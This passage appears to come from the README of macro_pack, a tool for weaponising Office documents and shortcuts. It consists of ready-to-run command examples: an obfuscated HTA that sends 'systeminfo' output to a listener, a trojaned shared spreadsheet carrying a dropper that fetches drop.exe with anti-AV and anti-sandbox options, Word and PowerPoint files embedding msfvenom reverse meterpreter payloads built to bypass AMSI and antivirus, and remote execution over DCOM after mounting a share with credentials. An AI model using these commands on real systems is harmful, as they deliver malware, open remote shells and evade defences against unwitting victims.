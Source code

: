 
- Generates obfuscated HTA file which executes "systeminfo" and returns result to another macro_pack listening on 192.168.0.5
```batch
# 1 Generate HTA file with REMOTE_CMD template
echo http://192.168.0.5:1234/a "systeminfo" | macro_pack.exe -t REMOTE_CMD -o -G info.hta
# 2 On 192.168.0.5 open macro_pack as http listener
macro_pack.exe -l . --port=1234
# 3 run hta file with mshta
mshta.exe full/path/to/info.hta
```


- Generate url shortcut which executes a local hta file when you click on it
```batch
 echo "file://C:\Users\username\Desktop\hello.hta" | macro_pack.exe -G yop.url
```


- Generate lnk shortcut which executes a cmd running calc.exe with calc.exe icon
```batch
 echo '"c:\Windows\System32\cmd.exe /c calc.exe" "calc.exe"' | macro_pack.exe -G calc.lnk
```



### Some macro\_pack pro examples

- Trojan the existing shared "report.xlsm" file with a dropper. Use anti-AV and anti-reversz features.
```bash
echo "http://10.5.5.12/drop.exe" "dropped.exe" | macro_pack.exe -o -t DROPPER2 --trojan --av-bypass --stealth --antisandox  -G "E:\accounting\report.xls"   
```

- Generate a Word file containing VBA self encoded x64 reverse meterpreter VBA payload (will bypass most AV). Keep-alive is needed because we need meterpreter to stay alive before we migrate.
```bash
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --keep-alive  -G  out.docm
```

- Trojan a PowerPoint file with a reverse meterpreter. Macro is obfuscated and mangled to bypass AMSI and most antiviruses. 
```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --trojan -G  hotpics.pptm
```

- Execute a macro on a remote PC using DCOM
```batch
REM Step 1: Ensure you have enough rights
net use  \\192.168.0.8\c$ /user:domain\username password

REM Step 2: Generate document, for example here, meterpreter reverse TCP Excel file
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G meter.xlsm
REM Step 3: Copy the document  somewhere on remote share
copy meter.xlsm "\\192.168.0.8\c$\users\username\meter.xlsm"
REM Step 4: Execute!
macro_pack.exe --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"

REM Step 2 to 4 in one step:
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G "\\192.168.0.8\c$\users\username\meter.xlsm" --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"

```
